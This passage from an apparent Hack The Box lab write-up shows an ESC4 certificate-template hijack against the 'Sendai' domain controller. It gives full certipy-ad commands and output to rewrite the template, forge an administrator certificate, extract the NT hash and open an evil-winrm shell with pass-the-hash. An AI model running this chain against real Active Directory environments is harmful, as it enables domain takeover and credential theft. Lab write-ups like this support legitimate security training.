From this we can see that the `SendaiComputer` certificate template has a `"ESC4": "User has dangerous permissions."` vulnerability.

We can reference the [certipy wiki](https://github.com/ly4k/Certipy/wiki/06-‐-Privilege-Escalation#esc4-template-hijacking) for exploitation steps for the `ESC4: Template Hijacking` vulnerability.

The first step is to modify the `SendaiComputer` certificate template using certipy's `template` command in order so the template is in a known vulnerable state:

```
┌──(kali㉿kali)-[~/labs_htb/Sendai]
└─$ certipy-ad template -u clifford.davey  -p '<REDACTED>' -dc-ip 10.129.234.66 -template SendaiComputer -write-default-configuration
Certipy v5.1.0 - by Oliver Lyak (ly4k)

[*] Saving current configuration to 'SendaiComputer.json'
[*] Wrote current configuration for 'SendaiComputer' to 'SendaiComputer.json'
[*] Updating certificate template 'SendaiComputer'
[*] Replacing:
[*]     nTSecurityDescriptor: b'\x01\x00\x04\x9cD\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x14\x00\x00\x00\x02\x000\x00\x02\x00\x00\x00\x00\x00\x14\x00\xff\x01\x0f\x00\x01\x01\x00\x00\x00\x00\x00\x05\x0b\x00\x00\x00\x00\x00\x14\x00\x94\x00\x02\x00\x01\x01\x00\x00\x00\x00\x00\x05\x0b\x00\x00\x00\x01\x01\x00\x00\x00\x00\x00\x05\x0b\x00\x00\x00'
[*]     flags: 66104
[*]     pKIDefaultKeySpec: 2
[*]     pKIKeyUsage: b'\x86\x00'
[*]     pKIMaxIssuingDepth: -1
[*]     pKICriticalExtensions: ['2.5.29.19', '2.5.29.15']
[*]     pKIExpirationPeriod: b'\x00@9\x87.\xe1\xfe\xff'
[*]     pKIExtendedKeyUsage: ['1.3.6.1.5.5.7.3.2']
[*]     pKIDefaultCSPs: ['2,Microsoft Base Cryptographic Provider v1.0', '1,Microsoft Enhanced Cryptographic Provider v1.0']
[*]     msPKI-Enrollment-Flag: 0
[*]     msPKI-Private-Key-Flag: 16
[*]     msPKI-Certificate-Name-Flag: 1
[*]     msPKI-Minimal-Key-Size: 2048
[*]     msPKI-Certificate-Application-Policy: ['1.3.6.1.5.5.7.3.2']
Are you sure you want to apply these changes to 'SendaiComputer'? (y/N): y
[*] Successfully updated 'SendaiComputer'
```

Now we need to request the modified template but first we need to retrieve the administrators `sid` using the certipy-ad command:

```
┌──(kali㉿kali)-[~/labs_htb/Sendai]
└─$ certipy-ad account -u clifford.davey  -p '<REDACTED>' -dc-ip 10.129.234.66 -user 'administrator' read                    
Certipy v5.1.0 - by Oliver Lyak (ly4k)

[*] Reading attributes for 'Administrator':
    cn                                  : Administrator
    distinguishedName                   : CN=Administrator,CN=Users,DC=sendai,DC=vl
    name                                : Administrator
    objectSid                           : S-1-5-21-3085872742-570972823-736764132-500
    sAMAccountName                      : Administrator
    userAccountControl                  : 66048
    whenCreated                         : 2023-07-11T08:57:24+00:00
    whenChanged                         : 2025-08-18T09:59:35+00:00
```

With this we can now request the modified template:

```
┌──(kali㉿kali)-[~/labs_htb/Sendai]
└─$ certipy-ad req -ca sendai-DC-CA -u clifford.davey  -p '<REDACTED>' -dc-ip 10.129.234.66 -template SendaiComputer -target dc.sendai.vl -upn 'administrator@sendai.vl' -sid 'S-1-5-21-3085872742-570972823-736764132-500' -debug
Certipy v5.1.0 - by Oliver Lyak (ly4k)

[+] Nameserver: '10.129.234.66'
[+] DC IP: '10.129.234.66'
[+] DC Host: None
[+] Target IP: None
[+] Remote Name: 'dc.sendai.vl'
[+] Domain: ''
[+] Username: 'CLIFFORD.DAVEY'
[+] Trying to resolve 'dc.sendai.vl' at '10.129.234.66'
[+] Generating RSA key
[*] Requesting certificate via RPC
[+] Trying to connect to endpoint: ncacn_np:10.129.234.66[\pipe\cert]
[+] Connected to endpoint: ncacn_np:10.129.234.66[\pipe\cert]
[*] Request ID is 9
[*] Successfully requested certificate
[*] Got certificate with UPN 'administrator@sendai.vl'
[+] Found SID in SAN URL: 'S-1-5-21-3085872742-570972823-736764132-500'
[+] Found SID in security extension: 'S-1-5-21-3085872742-570972823-736764132-500'
[*] Certificate object SID is 'S-1-5-21-3085872742-570972823-736764132-500'
[*] Saving certificate and private key to 'administrator.pfx'
[+] Attempting to write data to 'administrator.pfx'
[+] Data written to 'administrator.pfx'
[*] Wrote certificate and private key to 'administrator.pfx'
```

The certificate and private key are written to a file called `administrator.pfx` which we can use to authenticate to the Domain Controller and obtain the Administrator's hash:

```
┌──(kali㉿kali)-[~/labs_htb/Sendai]
└─$ certipy-ad auth -pfx ./administrator.pfx -dc-ip 10.129.234.66
Certipy v5.1.0 - by Oliver Lyak (ly4k)

[*] Certificate identities:
[*]     SAN UPN: 'administrator@sendai.vl'
[*]     SAN URL SID: 'S-1-5-21-3085872742-570972823-736764132-500'
[*]     Security Extension SID: 'S-1-5-21-3085872742-570972823-736764132-500'
[*] Using principal: 'administrator@sendai.vl'
[*] Trying to get TGT...
[*] Got TGT
[*] Saving credential cache to 'administrator.ccache'
[*] Wrote credential cache to 'administrator.ccache'
[*] Trying to retrieve NT hash for 'administrator'
[*] Got hash for 'administrator@sendai.vl': aad3b435b51404eeaad3b435b51404ee:<REDACTED>
```

With the admin hash obtained we can use it to log into the target machine using `evil-winrm`:

```
┌──(kali㉿kali)-[~/labs_htb/Sendai]
└─$ evil-winrm -i 10.129.234.66 -u administrator -H <REDACTED>
                                        
Evil-WinRM shell v4.1
                                        
Info: Establishing connection to remote endpoint
                                        
Info: Connection successful
*Evil-WinRM* PS C:\Users\Administrator\Documents> whoami
sendai\administrator
*Evil-WinRM* PS C:\Users\Administrator\Documents> hostname
dc
```

The root.txt hash can be found in the Administrator's Desktop directory thus solving the challenge!


